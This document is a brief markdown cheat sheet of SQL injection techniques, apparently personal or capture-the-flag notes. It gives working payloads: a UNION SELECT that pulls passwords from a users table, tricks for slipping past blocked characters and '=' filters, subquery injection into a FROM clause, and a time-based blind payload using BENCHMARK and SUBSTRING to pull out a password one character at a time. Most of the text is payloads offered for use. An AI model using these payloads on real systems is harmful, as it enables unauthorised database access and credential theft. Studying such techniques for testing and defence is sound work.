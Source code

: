 # Basic

## Select injection

#### Basic

`-100 UNION SELECT password from users`

union the results of the intended query with more information (just make sure number of columns match)

#### Col Num Nismatch

you can use `join` instead of union

## Blacklists

#### Blocked "="?

`id = 1` can also be written as `id in (1)`

#### Blocked characters?

As long as you can use string concatination you can replace most fields where a term is blocked with

`(select CHAR(97)||CHAR(98)...)`

in addition remember sql lets you have hex strings in leu of text.

`0x12345`


## Injecting into table field

if you have something like

`select id from <injection>`

utilise sub queries, this will grab the password field instead of the id field and give it a alias so the query compiles

`select id from (select password as id from users)`

## Blind

With most queries the best thing is to write a query that will return 1 row ish and then union / and it with your target payload query.

If the query fails for whatever reason you will get 0 results whereas if it compiles without crashing you get 1 row.

In this way you can test payloads.

If you can't actually get a response then you have to do

`1 UNION SELECT IF(<test>,BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null))  FROM users WHERE user_id = 1`

here we use `BENCHMARK` which will encode "MSG" 5000000 times to cause a noticable delay.

Now we can test letter by letter for something like `SUBSTRING(user_password,1,1) = CHAR(50)` to get the characters of the password one by one

(should be scripted)
